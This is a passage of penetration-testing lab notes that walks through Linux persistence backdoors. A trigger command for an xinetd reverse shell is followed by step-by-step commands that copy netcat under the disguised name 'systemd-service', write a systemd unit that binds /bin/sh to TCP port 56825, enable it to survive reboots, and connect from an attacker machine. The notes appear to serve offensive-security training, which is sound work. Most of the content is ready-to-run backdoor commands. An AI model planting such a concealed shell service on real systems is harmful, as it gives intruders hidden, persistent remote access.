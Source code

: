 3. We will use a tool called hping3 to send a single UDP packet to port 65534 on the target host, the services-udp netcat binary will be triggered and send us a reverse shell. The hping command we will use is:
```
hping3 -2 -c 1 <target ip> -p 65534
```
// https://tools.kali.org/information-gathering/hping3

#### Systemd Netcat Bind Shell
- it will also persist through reboots
- Systemd is used to launch services and processes and system startup.
- similar to Xinetd backdoor, but this one will create a **bind shell**, rather than a reverse shell

1. on the target, copy the /bin/nc to /lib/systemd directory as **systemd-service**
```
cp /bin/nc /lib/systemd/systemd-service
```

2. on the target, create a file called /lib/systemd/system/systemd.service:
```
[Unit]
Description = Systemd Service
After = network.target
[Service]
ExecStart = /lib/systemd/systemd-service -lvp 56825 -e /bin/sh
[Install]
WantedBy = multi-user.target
```

// the above systemd service config will create a bind shell on port 56825 TCP

3. enable and start the Systemd Netcat Bind Shell Service:
```
systemctl enable systemd.service
symtemctl start systemd.service
```

4. confirm if that port For our custom service is listening on the target:
```
netstat -auntp | grep 56825
```

5. from kali, connect to the port
```
nc <target ip> 56825
```
> it will persist on reboots and will be listed as **systemd-service** if listing processes

## Lab 3 - Remote and Post Exploitation


Netblock: 172.16.80.1/24
domain: robotstogo.localdomai

ip: 172.16.80.7
